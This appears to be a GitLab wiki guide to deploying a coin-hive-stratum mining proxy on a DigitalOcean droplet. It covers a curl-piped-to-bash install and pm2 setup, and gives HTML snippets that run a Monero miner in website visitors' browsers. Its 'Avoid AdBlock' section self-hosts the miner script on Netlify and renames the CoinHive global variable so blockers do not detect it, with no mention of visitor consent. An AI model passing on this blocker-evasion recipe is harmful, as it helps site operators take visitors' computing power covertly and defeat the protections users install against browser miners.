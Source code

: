 Deploy [coin-hive-stratum](https://gitlab.com/cazala/coin-hive-stratum) to a DigitalOcean dropplet + Netlify CDN

# Account

Create an account at [DigitalOcean](https://m.do.co/c/f0a21da7be52).

If you sign up with [this link](https://m.do.co/c/f0a21da7be52) you will get $10 on DigitalOcean credit for free.

You can also enter a promo code:

* If you have a student email (ending with .edu) you can get $50 on DigitalOcean credit for free with a [GitHub Student Pack](https://education.github.com/pack). 

* If you don't have a student email, you can use the promo code LOWENDBOX to get $15 for free. 

* If the one above doesn't work, you can use DROPLET10 and get $10 for free. 

# Droplet

After logging in, go to your droplets and create a new one:
￼

![33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b](/uploads/a6a9e8b76cf9a6d0d27d2f67b4bcf3e3/33801081-01a9a1d2-dd2e-11e7-9929-abe4c4040f6b.png)

Choose an Ubuntu image:

![33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f](/uploads/644fa6ced095d3b993adb5a31df239bb/33801080-01883254-dd2e-11e7-81b2-3e00a4d0d07f.png)
￼
Choose the size:
￼
![33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c](/uploads/e840b11c5beb5fc0e91549557ffe82f4/33801082-01c9cce6-dd2e-11e7-86b3-42ab26582f4c.png)

Choose a region:
￼
![33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406](/uploads/1d3b271daabe643d497a82586cc2fb53/33801090-41e6581c-dd2e-11e7-84e0-efa6ffbd9406.png)

After creating your droplet you will receive an email with your droplet's credentials:

```
Droplet Name: ubuntu-512mb-nyc3-01
IP Address: 203.0.113.0
Username: root
Password: EXAMPLE71936efe52b9eb4c602
```

Users of Windows without Bash will have to [access their droplet using Putty](https://www.digitalocean.com/community/tutorials/how-to-log-into-your-droplet-with-putty-for-windows-users).

If you use of Linux, Mac, or Windows with Bash, you can access your droplet via OpenSSH:

```
ssh root@203.0.113.0
```

Once logged in, run this command:

```
curl -o- https://raw.githubusercontent.com/cazala/coin-hive-stratum/master/install.sh | bash 
```

This will install `coin-hive-stratum` and all it's dependencies.

Now run this to activate NVM:

```
source ~/.bashrc
```

To configure your proxy, edit the file proxy.js (by default it's pointing to pool.supportxmr.com:3333):

```
vi proxy.js
```

Now you can start your proxy using pm2:

```
pm2 start proxy.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Run this to monitor your proxy:

```
pm2 monit
```

And this to stop it:

```
pm2 stop proxy
```

Now you proxy is available via `ws://X.X.X.X` (where `X.X.X.X` is your droplet's IP) !

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["ws://203.0.113.0"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Custom Domain or Subdomain and SSL

Probably you will want to access your proxy from a domain instead of an IP, and be able to use `wss://`

In order to do this you will have to buy a domain if you don't have one ([GoDaddy](https://www.godaddy.com/), [NameCheap](https://www.namecheap.com/), or any other will work), and follow this guide:

* [Point your Nameservers to DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-point-to-digitalocean-nameservers-from-common-domain-registrars)

If you already have a domain, and you are using Cloudflare (if you don't, you should) and you want to use your proxy under a subdomain, follow this guide:

* [Cloudflare pointing subdomains to different droplets](https://www.digitalocean.com/community/questions/cloudflare-pointing-subdomains-to-a-different-droplets)

To generate your SSL certificates for your domain or subdomain follow this guide:

* [Use Certbot to retrieve Let's Encrypt SSL certificates](https://www.digitalocean.com/community/tutorials/how-to-use-certbot-standalone-mode-to-retrieve-let-s-encrypt-ssl-certificates)

After you have your domain or subdomain setup and your SSL certificates, just edit the file `proxy_secure.js` and add your domain in the line `const domain = "yourdomain.com"`:

```
vi proxy_secure.js
```

It should look like this:

```
const Proxy = require("coin-hive-stratum");
const domain = "yourdomain.com"
const proxy = new Proxy({
  host: "pool.supportxmr.com",
  port: 3333,
  key: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/privkey.pem"),
  cert: require("fs").readFileSync("/etc/letsencrypt/live/" + domain + "/fullchain.pem"),
});
proxy.listen(443);
```

And run your proxy using this instead:

```
pm2 start proxy_secure.js --name=proxy --log-date-format="YYYY-MM-DD HH:mm"
```

Now your proxy will be accesible from your domain and via `wss://`!

For example:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  // Configure CoinHive to point to your proxy
  CoinHive.CONFIG.WEBSOCKET_SHARDS = [["wss://my-awesome-proxy.com"]];

  // Start miner
  var miner = CoinHive.Anonymous('your-monero-address');
  miner.start();

</script>
```

# Avoid AdBlock

You may also want to host your own assets instead of using CoinHive's to avoid AdBlock.

In order to do that, fork [this repo](https://gitlab.com/cazala/coin-hive-stratum).

![fork](/uploads/095f91e51a26af9cb29319cff3139eb6/fork.gif)

---
￼
Now login to [Netlify](https://netlify.com) and follow this instruction:

* Click on `New site from Git`

* Connect to Gitlab

* Select the repo you just forked: `coin-hive-stratum`

* Select the branch `assets`

* Deploy!

![netlify](/uploads/bba96ae08beae3c0e1684e0b1d18ab72/netlify.gif)

This will give you a url like this:

```
https://priceless-wright-067e2f.netlify.com
```

Now instead of using CoinHive's miner:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

You should use your miner like this:

```html
<script src="https://priceless-wright-067e2f.netlify.com?proxy=YOUR-PROXY-URL"></script>
```

This is an example of how it should look like:

```html
<script src="https://priceless-wright-067e2f.netlify.com?proxy=wss://my-awesome-proxy.com"></script>
```

Also, instead of using the CoinHive global variable use CH (this is to avoid AdBlock), ie:

```html
<script src="https://priceless-wright-067e2f.netlify.com?proxy=wss://my-awesome-proxy.com"></script>
<script>
  var miner = CH.Anonymous('MONERO_WALLET_ADDRESS');
  miner.start();
</script>
```
